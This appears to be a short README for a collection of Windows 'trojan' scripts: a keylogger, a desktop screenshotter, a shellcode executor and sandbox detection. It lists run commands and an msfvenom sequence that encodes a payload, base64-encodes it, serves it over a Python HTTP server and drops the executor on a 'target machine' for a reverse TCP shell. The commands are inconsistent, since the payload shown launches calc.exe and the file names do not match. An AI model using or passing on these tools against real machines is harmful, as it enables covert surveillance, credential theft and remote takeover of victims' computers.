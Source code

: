 # Windows Trojans for common tasks. Here you'll find a keylogger tool, tools to take screenshots of the user's desktop environment, shell code execution and sendbox detection.

- Keylogger.py

C:\user\admin>python Keylogger.py

- Screenshotter.py

C:\user\admin>python Screenshotter.py

- shell_exec.py

#First create a payload with msfvenom then we base64 encode it. After you did all that you are ready to start a python3 server  

msfvenom -p windows/exec -e x86/shikata_ga_nai -i 1 -f raw cmd=calc.exe > shallcode.raw

base64 -w 0 -i shellcode.raw > shellcode.bin

python3 -m http.server 8000

Drop the shell_exec.py on the Windpws target machine and execut it
If all goes well youl'll be presented with a reverse TCP shell back to your framework 
